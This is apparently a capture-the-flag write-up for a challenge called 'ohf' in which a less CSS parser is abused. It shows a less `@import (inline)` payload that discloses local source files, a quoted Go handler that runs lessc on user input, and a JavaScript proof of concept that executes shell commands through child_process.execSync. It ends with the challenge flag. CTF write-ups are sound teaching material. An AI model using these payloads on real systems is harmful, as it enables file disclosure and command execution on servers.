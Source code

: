 # ohf

## Challenge

> Use this amazing One-tap Hacking Framework to hack everything with just one tap!!!!

## Walkthrough

This challenge contained a link to a webapp with a console and CSS input field.

![landing.png](landing.png)

After digging into the console system to no avail I set my sites on the CSS input. It made a GET request to `/less?data=<base64 encoded CSS>` and then passed the response back into the pages stylesheet. I recognized this as likely a [less CSS parser](https://lesscss.org/) which has [numerous issues](https://www.softwaresecured.com/exploiting-less-js-to-achieve-rce/) depending on how it's implemented.

I leaked the challenge source using local file disclosure which only revealed that the CSS was indeed being parsed by less.

```css
@import (inline) "ohf_main_to_be_deployed.go";
```

```go
// ohf_main_to_be_deployed.go
// ...
r.GET("/less", func(c *gin.Context) {
  dst, err := base64.StdEncoding.DecodeString(c.Query("data"))

  fname := RandString(8)
  err = ioutil.WriteFile("/tmp/"+fname, dst, 0755)

  cmd := exec.Command("lessc", "/tmp/"+fname)
  cmd.Run()
}
// ...
```

Using the article linked earlier about [getting RCE on less](https://www.softwaresecured.com/exploiting-less-js-to-achieve-rce/) I copied their POC and sure enough it worked.

```js
// exploit.js
functions.add('cmd', function(val) {
  return `"${global.process.mainModule.require('child_process').execSync(val.value)}"`;
});
```

![flag.png](flag.png)

## Solve

`flag{45ae12fcb357f61dcbbaae63a2b3f24f}`
